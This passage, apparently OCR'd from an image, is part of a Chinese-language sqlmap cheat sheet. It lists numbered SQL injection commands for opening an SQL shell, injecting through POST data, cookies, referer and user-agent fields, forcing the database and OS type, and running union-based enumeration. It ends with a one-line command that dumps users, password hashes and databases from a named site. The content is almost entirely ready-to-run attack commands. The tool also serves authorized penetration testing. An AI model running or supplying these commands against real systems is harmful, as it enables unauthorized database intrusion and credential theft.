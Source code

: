 python sqlmap.py -u "url" --sql-shell

12)-p 指定参数

python sqlmap.py -u "url" -v 1 -p "id"

-p可以指定多参数-p "cat,id"

13)POST提交

python sqlmap.py -u "url" --method POST --data "id=1"

14)COOKIE提交

python sqlmap.py -u "url" --cookie "id=1" -v 1

cookie值可以由TamperData抓取

15)refer欺骗

python sqlmap.py -u "url" --refer "url" -v 3

16)使用自定义user-agent或者user-agents.txt

python sqlmap.py -u "url" --user-agent "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)" -v 3

python sqlmap.py -u "url" -v 1 -a "./txt/user-agents.txt"

17)使用多线程猜解

python sqlmap.py -u "url" -v 1 --current-user --threads 3

18)指定数据库，绕过SQLMAP的自动检测

python sqlmap.py -u "url" -v 2 --dbms "PostgreSQL"

19)指定操作系统绕过SQLMAP自动检测

python sqlmap.py -u "url" -v 2 --os "Windows"

20)--prefix and --postfix自定义payload

python sqlmap.py -u "url" -v 3 -p "id" --prefix "'" --postfix "and 'test'='test"

21)union注入测试

python sqlmap.py -u "url" --union-test -v -1

22)配合order by

python sqlmap.py -u "url" --union-test --union-tech orderby -v 1

23)python sqlmap.py -u "url" -v 1 --union-use --banner

24)python sqlmap.py -u "url" -v 5 --union-use --current-user

25)python sqlmap.py -u "url" -v 1 --union-use --dbs

常用语句

1.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -f -b –current-user –current-db –users –passwords –dbs -v 0
